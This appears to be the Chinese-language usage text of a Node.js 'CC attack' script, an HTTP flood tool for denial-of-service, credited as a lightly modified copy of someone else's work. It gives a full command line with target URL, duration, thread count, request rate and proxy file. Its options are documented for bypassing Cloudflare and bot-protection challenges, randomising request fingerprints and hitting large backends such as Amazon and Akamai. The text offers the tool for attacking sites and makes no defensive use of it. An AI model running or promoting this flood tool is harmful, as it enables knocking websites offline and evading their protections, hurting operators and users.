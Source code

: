 JS CC攻击脚本，改了一丁点东西，感谢原作者
-----------------------------------------------------
    使用方法:
      node ${process.argv[1]} <GET/POST/HEAD/OPTIONS> <目标地址> <持续时间> <线程数> <请求速率限制> <代理文件> --参数
      Eg:
      node ${process.argv[1]} GET "https://target.com?q=%RAND%" 120 16 90 proxy.txt --query 1 --delay 1 --bfm true --referer rand --postdata "user=f&pass=%RAND%" --debug --randrate --full --header "f:f" --ip 1.1.1.1:3128 --useragent "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36" --useuatxt ua.txt
-----------------------------------------------------
    参数选项:
     --query 1/2/3 ~~~ 带 rand 的查询字符串，例如 1 - ?cf__chl_tk 2 - ?fwfwfwfw 3 - ?q=fwfwwffw
     --delay <1-1000> ~~~ 请求之间的延迟 1-100 毫秒（最佳）默认 1 毫秒
     --cookie "f=f" ~~~ 用于自定义 cookie - 还支持 %RAND% 的 cookie，例如：“bypassing=%RAND%”
     --bfm true/null ~~~ 如果需要，机器人战斗模式更改为 true，如果不需要则不使用
     --referer seturl / rand ~~~ 如果需要，使用自定义 referer 和 rand - 如果需要生成域名，例如：fwfwwfwfw.net
     --postdata "user=f&pass=%RAND%" ~~~ 如果您需要数据来发布请求方法格式“user=f&pass=f”
     --randrate ~~~ 随机化器速率 1 到 90 良好绕过速率
     --full ~~~ 此新功能仅用于攻击大型后端 ex amazon akamai 和其他... 支持 cf
     --http 1/2/mix ~~~ 新功能选择键入 http 1/2/mix（mix 1 & 2）
     --debug ~~~ 显示您的状态代码（可能低 rps 以使用更多资源）
     --header "f:f" or "f:f#f1:f1" ~~~ 如果需要，请使用自定义标头，用 # 分隔每个标头
     --legit ~~~ 此新功能用于攻击，具有完整合法标头，不适用于 cf
     --ip 代理ip:端口 ~~~ 使用自定义 IP 代理
     --useragent 你的UA ~~~ 使用自定义 useragent
     --useuatxt ua.txt ~~~ 使用自定义UA文件 ua.txt

